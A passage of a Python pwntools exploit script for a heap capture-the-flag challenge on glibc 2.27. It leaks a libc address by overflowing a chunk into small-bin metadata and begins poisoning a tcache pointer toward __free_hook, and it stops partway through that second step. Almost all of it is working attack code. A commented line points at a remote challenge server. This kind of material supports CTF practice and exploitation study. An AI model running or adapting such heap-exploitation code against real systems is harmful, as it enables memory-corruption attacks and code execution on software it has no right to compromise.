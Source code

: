 ```python
from pwn import *

context.log_level = 'debug'
# libc = ELF("libc-2.27.so")

libc = ELF("./libc-2.27.so")
# sh = process(["./ld-2.27.so", "./chall"], env={"LD_PRELOAD": "./libc-2.27.so"})
sh = process(["./ld277-3ubuntu1.so", "./chall"], env={"LD_PRELOAD": "./libc-2.27.so"})
# sh = remote("8.134.97.12", 26756)


def create(size, content):
    sh.sendafter(">>> ", "opcode: 1\npasswd: Cr4at30\n\n")
    sh.sendafter(">>> ", str(size))
    sh.sendafter(">>> ", content)


def show(idx):
    sh.sendafter(">>> ", "opcode: 2\npasswd: SH0w0\n\n")
    sh.sendafter(">>> ", str(idx))
    return sh.recvuntil('\n', drop=True)


def edit(idx, content):
    sh.sendafter(">>> ", "opcode: 3\npasswd: Ed1t0\n\n")
    sh.sendafter(">>> ", str(idx))
    sh.sendafter(">>> ", content)


def delete(idx):
    sh.sendafter(">>> ", "opcode: 4\npasswd: D3l4te0\n\n")
    sh.sendafter(">>> ", str(idx))


# Step-1: Leak Libc using Small Bins
for i in range(9):  # create 0~8
    create(520, 'A')  # malloc(528uLL) chunk size=544=0x220
for i in range(7):  # delete 8~2 # full tcache(0x220) size=7
    delete(8 - i)

delete(0)  # to unsorted bin chunk*1(0x220)
delete(0)  # unsorted bin chunk(0x220, 0x200)  0x200??? some chunk take 0x20???

# malloc from tcache, tcache(0x220) size=6
create(520, b"deadbeef0000".ljust(520, b'B'))
# after: unsorted bin chunk*1(0x1e0)  small_bins[33]: chunk*1(size=0x220)


# before edit: chunk0*(deadbeef0000), 0x20chunk, 0x220chunk(in small bin), 0x20chunk .... top chunk
edit(0, b"deadbeef0000".ljust(0x240, b'B'))  # full addr bafore libc addr with 'B'
# small_bins[33]: fw=0x5555565bd230, bk=0x5555565bd230 Chunk(addr=0x5555565bd240, size=0x6161616161616160

leak_data = show(0)[0x240:]  # leak addr in libc through a chunk in small bins
libc.address = u64(leak_data.ljust(8, b'\x00')) - 0x00007f7c48fe9eb0 + 0x00007f7c48bfe000  # -0x3ebeb0
#  -(leak addr)+(libc base addr in vmmap)
print(hex(libc.address))


# Step-2:  Cover fd of the Chunk in Tcache into`__free_hook`
# recover size of chunk in small bin to 0x221 (display in heap bins is 0x220)
edit(0, b"deadbeef0000".ljust(208, b'B').ljust(0x238, b'\x00') + p64(0x221))  # 520=0x208
```